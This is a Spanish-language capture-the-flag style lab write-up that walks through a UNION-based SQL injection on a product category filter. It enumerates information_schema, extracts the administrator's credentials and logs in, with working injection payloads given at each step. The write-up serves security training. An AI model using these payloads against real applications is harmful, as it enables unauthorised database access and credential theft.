







# 💉 Enumeración de bases de datos en motores no Oracle

## 📄 Descripción del laboratorio

Este laboratorio contiene una vulnerabilidad de **inyección SQL** en el filtro de categorías de productos. La aplicación devuelve los resultados de la consulta directamente en la respuesta, lo que permite utilizar un **ataque UNION SELECT** para enumerar la estructura de la base de datos y extraer datos sensibles.

El objetivo es identificar la tabla que contiene usuarios, obtener las credenciales del usuario **administrator** y utilizar esa información para iniciar sesión en la aplicación.


## 📚 Teoría

### 📌 Enumeración del esquema en motores no Oracle

En motores de base de datos como **MySQL, PostgreSQL o Microsoft SQL Server**, la información sobre la estructura de la base de datos se encuentra en el conjunto de tablas llamado:

```
information_schema
```

Este esquema contiene metadatos sobre la base de datos, incluyendo:

* Bases de datos o schemas
* Tablas
* Columnas

Las vistas más utilizadas para la enumeración son:

```
information_schema.schemata
information_schema.tables
information_schema.columns
```

El proceso de explotación sigue una serie de pasos encadenados:

1. Determinar el número de columnas de la consulta vulnerable.
2. Identificar qué columnas aceptan datos de tipo texto.
3. Enumerar los schemas disponibles.
4. Enumerar las tablas del schema de la aplicación.
5. Enumerar las columnas de la tabla de usuarios.
6. Extraer los valores de usuario y contraseña.

Si la aplicación refleja directamente los resultados de la consulta, es posible reconstruir la estructura completa de la base de datos mediante consultas UNION.


## 📝 Práctica

### 1️⃣ Determinar el número de columnas

Interceptamos la petición del filtro de categorías y la enviamos a **Burp Repeater**.

Probamos con `ORDER BY`:

```
/filter?category=' ORDER BY 1--
/filter?category=' ORDER BY 2--
/filter?category=' ORDER BY 3--
```

Resultados:

```
ORDER BY 1 → funciona
ORDER BY 2 → funciona
ORDER BY 3 → error
```

Conclusión: la consulta original devuelve **2 columnas**.




### 2️⃣ Confirmar columnas que aceptan texto

Probamos un ataque UNION simple:

```
/filter?category=' UNION SELECT 'test1','test2'--
```

<br>

Resultado:

La respuesta muestra una fila adicional con los valores:

```
test1
test2
```

Conclusión:

* Ambas columnas aceptan **datos de tipo texto**.
* El ataque UNION es viable.


### 3️⃣ Enumerar los schemas de la base de datos

Listamos los schemas disponibles mediante `information_schema.schemata`:

```
/filter?category=' UNION SELECT NULL,schema_name FROM information_schema.schemata--
```

<br>

La respuesta muestra varios schemas.

Entre ellos aparece:

```
public
```

En muchos entornos PostgreSQL, el schema `public` contiene las tablas de la aplicación.


### 4️⃣ Enumerar las tablas del schema

Enumeramos las tablas del schema `public`:

```
/filter?category=' UNION SELECT NULL,table_name 
FROM information_schema.tables 
WHERE table_schema='public'--
```

<br>

Entre las tablas devueltas aparece una con nombre similar a:

```
users_scvata
```

Los sufijos aleatorios son comunes en estos laboratorios para evitar enumeración trivial.


### 5️⃣ Enumerar las columnas de la tabla de usuarios

Una vez identificada la tabla de usuarios, listamos sus columnas:

```
/filter?category=' UNION SELECT NULL,column_name 
FROM information_schema.columns 
WHERE table_schema='public' 
AND table_name='users_scvata'--
```

<br>

Resultado:

```
username_frwtjx
password_mzrphq
```

Los nombres están ofuscados, pero su propósito es evidente.


### 6️⃣ Extraer usuarios y contraseñas

Ahora utilizamos los nombres exactos de tabla y columnas para extraer los datos.

Payload:

```
/filter?category=' UNION SELECT username_frwtjx,password_mzrphq 
FROM public.users_scvata--
```

<br>

La respuesta muestra varias filas con credenciales.

Entre ellas:

```
administrator : contraseña_del_admin
```


### 7️⃣ Iniciar sesión como administrador

Accedemos al formulario de login de la aplicación e introducimos:

```
Username: administrator
Password: contraseña_del_admin
```

La autenticación es exitosa.




### 8️⃣ Resultado

Mediante el ataque UNION se ha conseguido:

* Determinar el número de columnas de la consulta.
* Identificar columnas compatibles con texto.
* Enumerar schemas mediante `information_schema`.
* Enumerar tablas del schema de la aplicación.
* Enumerar columnas de la tabla de usuarios.
* Extraer credenciales de usuario.
* Iniciar sesión como **administrator**.

✅ El laboratorio se marca como completado.
